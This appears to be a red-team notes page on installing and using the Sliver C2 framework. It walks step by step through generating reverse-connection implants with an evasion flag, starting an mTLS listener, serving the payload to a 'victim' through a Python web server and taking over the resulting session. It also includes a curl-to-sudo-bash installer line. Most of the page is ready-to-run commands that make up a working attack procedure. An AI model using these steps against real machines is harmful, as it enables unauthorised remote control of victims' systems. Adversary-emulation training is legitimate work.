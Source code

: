 # Sliver

[Sliver](https://github.com/BishopFox/sliver) is an open source projected created and maintained by [BishopFox](https://www.bishopfox.com/) as an open source multi-platform adversary emulation and red team tool. Sliver facilitates the generations of reverse connection payloads as EXE, DLL, or Shellcode.

[Sliver Wiki](https://github.com/BishopFox/sliver/wiki/Getting-Started)

## Installing

It has binaries for Windows, Linux, MacOS allowing you to deploy Sliver C2 infrastructure on any system.

### Pre-reqs

```bash
sudo apt install -y mingw-w64 binutils-mingw-w64 g++-mingw-w64
```

## Running

This can be downloaded directly from the [Sliver Repo](https://github.com/BishopFox/sliver/releases) using wget or directly.

### Install on system

```bash
curl https://sliver.sh/install | sudo bash
```

Run it

```bash
sliver
```

<figure><img src="../../.gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>

### Standalone release

```bash
wget https://github.com/BishopFox/sliver/releases/download/v1.4.14/sliver-server_linux.zip
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Unzip the file

```bash
unzip sliver-server_linux.zip
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

Make it executable

```bash
chmod +x sliver-server
```

run it

```bash
sudo ./sliver-server
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Usage

### Making a payload

to generate at payload you must know your IP address(external if this is hosted externally). This will generate a randomly named executable file file that can be delivered to targets in a variety of ways. The flags `-m` and `-e` flags used above represent Natural-TLS connection to use to connect back on and evasion respectively. The IP address entered is the IP address of your Sliver server.

```bash
generate -m (attacker ip) -e
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

The executable file will be in the folder where sliver was run.

<figure><img src="../../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

#### Making .dll payload

```bash
generate —mtls (attacker ip) —format shared —skip-symbols
```

### Starting The MTLS Listener

The listener must be started before the delivery and exectuion of the payload on a target system. This listener will display all active connectsions from target systems to your C2 server.

```bash
mtls
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Exploit

Get the executable onto the victim. I'll do this via a quick python webserver.

```bash
python3 -m http.server 8008
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>

When the server is being accessed and a file is being downloaded

<figure><img src="../../.gitbook/assets/image (8) (1) (1).png" alt=""><figcaption></figcaption></figure>

On the victim machine go to the webserver and click on the file you want to download

<figure><img src="../../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (10) (1) (1).png" alt=""><figcaption></figcaption></figure>

Once it is executed, we should see the connection from the sliver terminal.

<figure><img src="../../.gitbook/assets/image (11) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can also check on active sessions or alive sessions with `sessions`

<figure><img src="../../.gitbook/assets/image (12) (1).png" alt=""><figcaption></figcaption></figure>

Connect to the session

```bash
sessions -i (session id)
```

<figure><img src="../../.gitbook/assets/image (13) (1).png" alt=""><figcaption></figcaption></figure>

Run whatever commands you may need/want:

<figure><img src="../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>
